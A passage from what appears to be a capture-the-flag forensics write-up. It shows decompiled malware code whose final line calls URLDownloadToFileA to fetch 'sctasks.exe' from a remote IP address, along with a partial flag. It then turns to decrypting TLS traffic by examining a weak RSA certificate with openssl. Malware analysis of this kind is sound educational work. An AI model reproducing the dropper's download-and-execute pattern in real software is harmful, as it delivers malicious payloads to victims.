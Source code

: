 ```c=
        {
          if ( !v0 )
            break;
          v38 = v35[v37];
          if ( !v38 )
            break;
          *v35 = v38;
          --v0;
          ++v35;
          --v36;
        }
        while ( v36 );
      }
      v39 = v35 - 1;
      if ( v36 )
        v39 = v35;
      *v39 = 0;
    }
    return URLDownloadToFileA(0LL, "https://10.10.70.114/sctasks.exe", v40, 0, 0LL);
  }
  return result;
}
```
We have the very first part of the flag: `L3AK{AV_evasion_is_easy`
## Decrypting the TLS Traffic
This function has nothing but only to download several files from a specific address. After this, I can conclude that we have to decrypt the TLS traffic in order to get these downloaded files, but how do I decrypt it ?
In the past, I've faced so many challenges like this, all the times I was given an SSL keylog file or a TLS Secret file so the traffic could be easily decrypted. But this time, it's different. 
I noticed there's a certificate included in the TLS packet:
![image](https://hackmd.io/_uploads/r1pMv77Lex.png)

Uncover its metadata by using openssl:
```openssl x509 -in traffic.cer -inform DER -text -noout -modulus
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            76:a9:af:24:d7:1a:c3:aa:fd:d3:ca:b1:25:fd:0d:f2:90:6a:7e:76
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=AU, ST=Some-State, O=Internet Widgits Pty Ltd
        Validity
            Not Before: Jun 15 01:09:12 2025 GMT
            Not After : Jun 15 01:09:12 2026 GMT
        Subject: C=AU, ST=Some-State, O=Internet Widgits Pty Ltd
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (1323 bit)
                Modulus:
                    04:5e:86:65:4b:c0:a3:b7:ca:87:31:07:a3:36:f5:
                    27:d1:30:5f:6a:44:c8:0e:3d:54:ba:fe:d6:69:c4:
                    51:18:d5:c3:0c:89:c4:65:c0:cc:fb:06:0a:62:59:
                    22:b4:2f:9a:70:25:5f:6d:20:82:5e:3b:f8:4c:7c:
                    a2:9f:3f:5b:04:89:52:51:e7:0f:e8:76:a7:4c:1b:
                    35:83:bf:7f:3e:ae:cd:56:b4:d4:48:7c:66:b0:aa:
                    15:5b:b9:35:c0:a2:0d:92:5b:31:4d:07:9c:1e:91:
                    d5:77:53:46:c6:e4:b7:bf:0a:e1:1e:d9:3a:55:b3:
                    d2:6b:71:3e:25:b1:d3:16:66:0b:98:9c:df:93:5b:
                    e6:7f:ff:82:bc:89:00:00:00:00:00:00:00:00:00:
                    00:00:00:00:00:00:00:00:00:00:00:00:00:01:32:
                    99
```
